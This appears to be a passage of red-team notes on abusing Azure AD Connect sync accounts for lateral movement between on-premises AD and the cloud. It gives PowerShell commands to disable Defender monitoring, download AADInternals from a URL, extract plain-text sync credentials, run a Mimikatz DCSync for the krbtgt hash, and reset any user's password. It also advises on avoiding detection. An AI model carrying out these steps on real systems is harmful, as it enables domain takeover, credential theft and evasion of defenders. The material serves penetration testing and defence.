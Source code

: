     - Configuration:
        MSOL_<installationID> account created in On-Prem AD. This account has replication (DCSync) permissions in the on-prem AD.
        Sync_<Name of OnPrem ADConnect server>_<InstallationID>. This account can reset the password of ANY user Cloud or AD Synced.

        Both accounts passwords are stored in a SQL server on the ADConnect server and it's possible to extract in clear-text if you have admin privileges on the server.
        Check if a server is running ADConnect:
        
        ```powershell
        Get-ADSyncConnector
        ```        
    
    - Detect:
        DCsync attacks will light MDI up like a christmas tree, but most environments white-list this account since it will generate such a high volume of alerts from the start, as its sole purpose is to perform DCsyncs.
        Compromising local admin of the server and abusing that account for Sync operations will look no different than what it does every two minutes. 

    - Lateral Movement Cloud to On-Prem:
        Once you have local admin rights on the server, disable monitoring and bring AADinternals over to decrypt plain-text sync credentials. 

        ```powershell
        Set-MpPreference -DisableRealtimeMonitoring $true
        iwr $url -o aadint.zip; Expand-Archive .\aadint.zip
        Import-Module .\AADInternals.psd1
        Get-AADIntSyncCredentials
        ```

        These credentials can be used to run a DCSync attack against the AD Environment.
        Dont touch LSASS - From your own host could do something like 'Invoke-Mimikatz -Cmmand '"lsadump::dcsync /user:domain1\krbtgt /domain:domain1.local /dc:dc.domain1.local"' to get the krbtgt hash

        Cloud to On-Prem:
        Now you can enumerate Global Admins, reset the password of a synced on-prem user using the the ImmutableID (unique GUID derived from On-Prem GUID).
        
        ```powershell
        Get-AADIntGlobalAdmins
        $email = ""
        $Id = Get-AADIntUser -UserPrincipalName $email | select ImmutableId
        Set-AADIntUserPassword -SourceAnchor $Id -Password "Inconceivable2Obscured" -Verbose
        # Access Cloud resources with new password, on-Prem resources with the old password
        ```
        
    - Lateral Movement On-Prem to Cloud:
        Resetting Cloud-Only user requires the CloudAnchor we can get from their cloud ObjectId. 
        CloudAnchor format is "USER_ObjectId"

        ```powershell
        Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectId
        $objId = ""
        Set-AADIntUserPassword -CloudAnchor "User_$ObjId" -Password "Inconceivable2Obscured" -Verbose
        # Can now access any portals with that PW
        ```
